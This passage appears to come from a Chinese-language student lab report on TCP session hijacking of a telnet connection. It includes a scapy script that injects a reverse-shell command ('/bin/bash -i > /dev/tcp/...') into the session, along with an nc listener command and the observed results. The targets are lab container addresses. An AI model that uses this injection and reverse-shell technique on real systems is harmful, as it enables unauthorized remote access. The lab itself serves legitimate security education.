 - 使用程序`hijcaking_manual_simple.py`进行攻击：`sudo python3 ./hijacking_manual_simple.py`

- `scapy`发送的攻击报文如下
  ![3.4.2.scapy发送的攻击报文](https://raw.githubusercontent.com/BIIIANG/pic/main/202204121238959.png)

- 服务机返回的报文（即指令的运行结果）如下
  ![3.4.3.服务机返回的报文（指令的运行结果）](https://raw.githubusercontent.com/BIIIANG/pic/main/202204121238181.png)
  
- 观察和解释：你的攻击是否成功？你怎么知道它是否成功？你期待看到什么？你观察到了什么？观察结果是你预想的那样吗？

  - 攻击成功；
  - 用户机的`telnet`连接卡死且`Wireshark`拦截到相应的攻击报文和服务机返回的命令执行结果报文；
  - 期待看到用户机的`telnet`连接卡死且`Wireshark`拦截到相应的攻击报文和服务机返回的命令执行结果报文；
  - 观察到了用户机的`telnet`连接卡死且`Wireshark`拦截到相应的攻击报文和服务机返回的命令执行结果报文；
  - 是。

### 3.4.2 反向`shell`

- 该攻击过程中的`Wireshark`数据见`3.4.利用scapy手动攻击(反向shell).pcapng`

- 与`3.4.1 普通命令`方法相同，可获得服务机向客户机发送的最后一个报文如下
  ![3.4.4.服务机向客户机发送的最后一个报文](https://raw.githubusercontent.com/BIIIANG/pic/main/202204121255756.png)

- 根据以上报文构造攻击程序`hijacking_manual_shell.py`如下

  ```python
  #!/usr/bin/python3
  from scapy.all import *
  
  print("SENDING SESSION HIJACKING PACKET.........")
  ip = IP(src="172.17.0.2", dst="172.17.0.3")
  tcp = TCP(sport=51768, dport=23, flags="A", seq=1356347600, ack=3083865505)
  data = "\r/bin/bash -i > /dev/tcp/172.17.0.1/11803 0<&1 2>&1\r"
  pkt = ip/tcp/data
  send(pkt, verbose=0)
  ```

- 在攻击机的`11803`端口开启监听：`nc -l 11803 -v`，然后使用程序`hijacking_manual_shell.py`进行攻击：`sudo python3 ./hijacking_manual_shell.py`

- 攻击后攻击机的`nc`即可获得服务机的`shell`，攻击成功
  ![3.4.5.攻击后攻击机的nc即可获得服务机的shell，攻击成功](https://raw.githubusercontent.com/BIIIANG/pic/main/202204121255948.png)

- `scapy`发送的攻击报文如下
  ![3.4.6.scapy发送的攻击报文](https://raw.githubusercontent.com/BIIIANG/pic/main/202204121255895.png)

- 追踪反向`shell`的`TCP`流如下，与攻击机发送的指令与结果相同
  ![3.4.7.追踪反向shell的TCP流](https://raw.githubusercontent.com/BIIIANG/pic/main/202204121255099.png)

- 观察和解释：你的攻击是否成功？你怎么知道它是否成功？你期待看到什么？你观察到了什么？观察结果是你预想的那样吗？

  - 攻击成功；
  - 用户机的`telnet`连接卡死、攻击机的`nc`获得服务机的`shell`且`Wireshark`拦截到相应的攻击报文和攻击机与服务机之间的`TCP`流数据；
  - 期待看到用户机的`telnet`连接卡死、攻击机的`nc`获得服务机的`shell`且`Wireshark`拦截到相应的攻击报文和攻击机与服务机之间的`TCP`流数据；
  - 观察到了用户机的`telnet`连接卡死、攻击机的`nc`获得服务机的`shell`且`Wireshark`拦截到相应的攻击报文和攻击机与服务机之间的`TCP`流数据；
  - 是。
